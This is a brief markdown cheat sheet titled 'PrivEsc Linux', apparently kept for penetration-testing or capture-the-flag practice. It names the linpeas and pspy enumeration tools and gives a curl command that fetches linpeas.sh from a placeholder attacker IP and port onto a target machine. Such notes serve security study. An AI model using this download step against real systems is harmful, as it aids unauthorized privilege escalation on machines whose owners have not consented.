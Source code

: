 ```yaml
---
title: PrivEsc Linux 🐱
---
```


- Use [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20240211-db8c669a)
- Use [pSpy](https://github.com/DominicBreuker/pspy/releases)

---

- If you can't use wget, try this with **curl**; `curl -o filename http://IP:port/linpeas.sh`

---
